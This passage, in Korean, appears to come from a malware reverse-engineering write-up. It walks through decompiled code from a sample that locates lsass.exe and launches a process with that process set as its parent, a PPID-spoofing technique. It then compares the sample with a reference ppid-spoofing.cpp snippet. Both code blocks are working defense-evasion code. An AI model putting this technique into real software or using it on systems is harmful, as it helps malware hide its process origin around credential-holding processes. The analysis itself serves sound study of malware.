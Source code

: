```cpp
      memset(&local_84,0,0x48);
      hModule = GetModuleHandleW(L"kernel32.dll");
      InitializeProcThreadAttributeList_addr =
           (InitializeProcThreadAttributeList *)
           GetProcAddress(hModule,"InitializeProcThreadAttributeList");
      hModule = GetModuleHandleW(L"kernel32.dll");
      UpdateProcThreadAttribute_addr =
           (UpdateProcThreadAttribute *)GetProcAddress(hModule,"UpdateProcThreadAttribute");
      (*InitializeProcThreadAttributeList_addr)((LPPROC_THREAD_ATTRIBUTE_LIST)0x0,1,0,&local_98);
      hHeap = GetProcessHeap();
      local_40 = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(hHeap,0,local_98);
      (*InitializeProcThreadAttributeList_addr)(local_40,1,0,&local_98);
      (*UpdateProcThreadAttribute_addr)(local_40,0,0x20000,proc_handle,4,(PVOID)0x0,(PSIZE_T)0x0);
      local_84.cb = 0x48;
      hModule = GetModuleHandleW(L"kernel32.dll");
      CreateProcessA_addr = (CreateProcessA *)GetProcAddress(hModule,"CreateProcessA");
      FUN_00401570();
      WVar2 = (*CreateProcessA_addr)
                        (DAT_00416028,(LPSTR)0x0,(LPSECURITY_ATTRIBUTES)0x0,
                         (LPSECURITY_ATTRIBUTES)0x0,1,0x80010,(LPVOID)0x0,(LPCSTR)0x0,
                         (LPSTARTUPINFOA)&local_84,(LPPROCESS_INFORMATION)&local_94);
      if (WVar2 == 0) {
        uVar4 = 0;
      }
      else {
        uVar4 = 1;
      }
    }
  }
  return uVar4;
}
```

보기가 좀 편해진 거 같은 느낌이 듭니다. 전체적인 부분을 훑어봤을 때 프로세스를 탐색을 하며 `lsass.exe`와 비교하고 같을 시 해당 프로세스의 ID를 가져옵니다. 그 후 `FUN_00401b91`을 호출하네요. 그 후 가져온 `lsass.exe`의 프로세스 핸들을 열고 `IntitializeProcThreaddAttributeList`, `UpdateProcThreadAttribute` 등을 호출하는 걸 보아... [PPID Spoofing](https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing)을 진행하는 거 같습니다. 해당 링크에서 확인할 수 있는 `ppid-spoofing.cpp` 코드와 비교해볼까요?

```cpp
#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

int main() 
{
	STARTUPINFOEXA si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEXA));
	
	HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, 6200);

	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);

```